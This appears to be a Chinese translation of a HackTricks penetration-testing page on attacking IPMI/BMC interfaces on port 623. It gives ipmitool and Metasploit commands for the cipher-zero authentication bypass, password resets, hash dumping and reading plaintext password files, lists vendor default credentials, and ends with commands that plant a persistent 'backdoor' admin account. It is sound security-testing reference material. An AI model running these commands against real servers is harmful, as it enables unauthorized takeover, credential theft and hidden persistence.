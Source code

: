 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

{{#include ../banners/hacktricks-training.md}}


## 基本信息

### **IPMI 概述**

**[智能平台管理接口 (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)** 提供了一种标准化的方法，用于远程管理和监控计算机系统，独立于操作系统或电源状态。该技术允许系统管理员远程管理系统，即使在系统关闭或无响应时，特别适用于：

- 操作系统启动前的配置
- 关机管理
- 从系统故障中恢复

IPMI 能够监控温度、电压、风扇速度和电源，同时提供库存信息、查看硬件日志，并通过 SNMP 发送警报。其操作所需的基本条件是电源和 LAN 连接。

自 1998 年由英特尔推出以来，IPMI 得到了众多厂商的支持，增强了远程管理能力，特别是 2.0 版本对串行 LAN 的支持。关键组件包括：

- **主板管理控制器 (BMC)：** IPMI 操作的主要微控制器。
- **通信总线和接口：** 用于内部和外部通信，包括 ICMB、IPMB 和各种本地及网络连接接口。
- **IPMI 内存：** 用于存储日志和数据。

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**默认端口**：623/UDP/TCP（通常在 UDP 上，但也可能在 TCP 上运行）

## 枚举

### 发现
```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```
您可以**识别**版本使用：
```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```
### IPMI 漏洞

在 IPMI 2.0 领域，Dan Farmer 发现了一个重大安全缺陷，通过 **cipher type 0** 暴露了一个漏洞。这个漏洞在 [Dan Farmer's research](http://fish2.com/ipmi/cipherzero.html) 中有详细记录，允许在目标有效用户的情况下，使用任何密码进行未经授权的访问。这个弱点在 HP、Dell 和 Supermicro 等制造商的各种 BMC 中被发现，表明所有 IPMI 2.0 实现中存在广泛的问题。

### **通过 Cipher 0 绕过 IPMI 认证**

要检测此缺陷，可以使用以下 Metasploit 辅助扫描器：
```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```
利用这个漏洞可以通过 `ipmitool` 实现，如下所示，允许列出和修改用户密码：
```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```
### **IPMI 2.0 RAKP 认证远程密码哈希检索**

此漏洞允许检索任何现有用户名的加盐哈希密码（MD5 和 SHA1）。要测试此漏洞，Metasploit 提供了一个模块：
```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```
### **IPMI 匿名认证**

许多 BMC 的默认配置允许“匿名”访问，其特征是用户名和密码字符串为空。此配置可以被利用，通过 `ipmitool` 重置命名用户帐户的密码：
```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```
### **Supermicro IPMI 明文密码**

IPMI 2.0 中的一个关键设计选择要求在 BMC 中存储明文密码以进行身份验证。Supermicro 将这些密码存储在 `/nv/PSBlock` 或 `/nv/PSStore` 等位置引发了重大安全隐患：
```bash
cat /nv/PSBlock
```
### **Supermicro IPMI UPnP 漏洞**

Supermicro 在其 IPMI 固件中包含的 UPnP SSDP 监听器，特别是在 UDP 端口 1900 上，引入了严重的安全风险。根据 [Rapid7 的披露](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play) 的详细信息，Intel SDK for UPnP Devices 版本 1.3.1 中的漏洞允许对 BMC 进行根访问：
```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```
### 暴力破解

**HP 在制造过程中随机化其** **集成灯光控制 (iLO)** **产品的默认密码**。这一做法与其他制造商形成对比，后者往往使用**静态默认凭据**。以下是各种产品的默认用户名和密码的总结：

- **HP 集成灯光控制 (iLO)** 使用**工厂随机化的 8 字符串**作为其默认密码，展示了更高的安全级别。
- 像**戴尔的 iDRAC、IBM 的 IMM**和**富士通的集成远程管理控制器**等产品使用易于猜测的密码，如“calvin”、“PASSW0RD”（带零）和“admin”。
- 同样，**Supermicro IPMI (2.0)、Oracle/Sun ILOM**和**ASUS iKVM BMC**也使用简单的默认凭据，其中“ADMIN”、“changeme”和“admin”作为它们的密码。

## 通过 BMC 访问主机

对基板管理控制器 (BMC) 的管理访问打开了访问主机操作系统的各种途径。一种简单的方法是利用 BMC 的键盘、视频、鼠标 (KVM) 功能。这可以通过重启主机到 GRUB 的根 shell（使用 `init=/bin/sh`）或从设置为救援磁盘的虚拟 CD-ROM 启动来完成。这些方法允许直接操作主机的磁盘，包括插入后门、数据提取或进行安全评估所需的任何操作。然而，这需要重启主机，这是一个显著的缺点。在不重启的情况下，访问正在运行的主机更为复杂，并且因主机的配置而异。如果主机的物理或串行控制台保持登录状态，可以通过 BMC 的 KVM 或串行通过 LAN (sol) 功能轻松接管，使用 `ipmitool`。探索共享硬件资源的利用，如 i2c 总线和超级 I/O 芯片，是一个需要进一步研究的领域。

## 从主机向 BMC 引入后门

在攻陷一台配备 BMC 的主机后，**可以利用本地 BMC 接口插入后门用户账户**，在服务器上创建持久存在。这一攻击需要在被攻陷的主机上存在**`ipmitool`**并激活 BMC 驱动程序支持。以下命令展示了如何通过主机的本地接口将新用户账户注入 BMC，从而绕过身份验证的需要。这一技术适用于包括 Linux、Windows、BSD 甚至 DOS 在内的广泛操作系统。
```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```
## Shodan

- `port:623`

## References

- [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)


{{#include ../banners/hacktricks-training.md}}
